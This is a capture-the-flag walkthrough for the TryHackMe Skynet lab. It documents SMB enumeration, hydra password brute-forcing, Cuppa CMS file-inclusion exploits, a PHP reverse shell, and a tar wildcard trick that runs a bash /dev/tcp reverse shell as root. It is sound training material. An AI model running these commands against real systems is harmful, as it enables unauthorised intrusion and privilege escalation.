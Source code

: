 # Skynet

**Room Link:** [https://tryhackme.com/room/skynet](https://tryhackme.com/room/skynet)

```
nmap -A 10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

```
smbclient -L //10.10.13.172
```

<figure><img src="../../.gitbook/assets/image (13) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
smbget -R smb://10.10.13.172/anonymous
cat logs/log* | sort | uniq  > passwords.txt 
```

<figure><img src="../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>

There is also an email from Miles Dyson, as it's just his name I tried different varations of his name for a username. There is a folder on samba that could be the username as well, milesdyson.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (4).png" alt=""><figcaption><p>username.txt</p></figcaption></figure>





```
gobuster dir 10.10.13.172 -u http://10.10.13.172 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (34) (1) (1).png" alt=""><figcaption></figcaption></figure>



```
hydra -l milesdyson -P passwords.txt 10.10.13.172 http-post-form "/squirrelmail/src/login.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F incorrect" -V -F -u
```

<figure><img src="../../.gitbook/assets/image (27) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now login to squirrelmail that gobuster discovered.

<figure><img src="../../.gitbook/assets/image (10) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (3) (2).png" alt=""><figcaption></figcaption></figure>

Downloaded all the files from the milesdyson folder on smb.

```
smbget -R smb://10.10.13.172/milesdyson -U milesdyson
Password: )s{A&2Z=F^n_E.B`
```

<figure><img src="../../.gitbook/assets/image (32) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (35) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
gobuster dir 10.10.13.172 -u http://10.10.13.172/45kra24zxs28v3yd/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

None of the passwords worked or default credentials for cuppa.

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption></figcaption></figure>

Found an exploit for cuppa LFI/RFI

```
searchsploit cuppa
searchsploit -x php/webapps/25971.txt
```

<figure><img src="../../.gitbook/assets/image (33) (1) (1).png" alt=""><figcaption></figcaption></figure>

Testing LFI and it works

```
http://10.10.13.172/45kra24zxs28v3yd/administrator//alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we will try RFI to get a reverse shell

**Kali #1**&#x20;

Create PHP reverse shell then host the file

<figure><img src="../../.gitbook/assets/image (3) (3) (3).png" alt=""><figcaption></figcaption></figure>

```
python2 -m SimpleHTTPServer 81
```

**Kali #2**

```
nc -lvnp 1337
```

**Browser**

```
http://10.10.13.172:81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.243.233/revshell.php
```

<figure><img src="../../.gitbook/assets/image (18) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

There is a backup script that is ran every minute by root which backs up /var/www/html

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

****

<figure><img src="../../.gitbook/assets/image (11) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**

We can use the following from gtfo to create a reverse shell. The checkpoint argument lets us run a command before the files are tar'd so we will create a reverse shell in /var/www/html and then the commands will execute when the folder is tar'd next.

****

**Exploit Link:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

```
printf '#!/bin/bash\nbash -i >& /dev/tcp/10.10.243.233/1338 0>&1' > /var/www/html/shell
chmod +x /var/www/html/shell
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=bash\ shell
```

**Kali**

```
nc -nvlp 1338
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There is a password in the configuration file, it does not work for root but we see in the home directory another user called jjameson

```
cat /var/www/html/configuration.php
```

<figure><img src="../../.gitbook/assets/image (37) (1).png" alt=""><figcaption></figcaption></figure>

We can login as jjameson&#x20;

```
su jjameson
Password: nv5uz9r3ZEDzVjNu
```
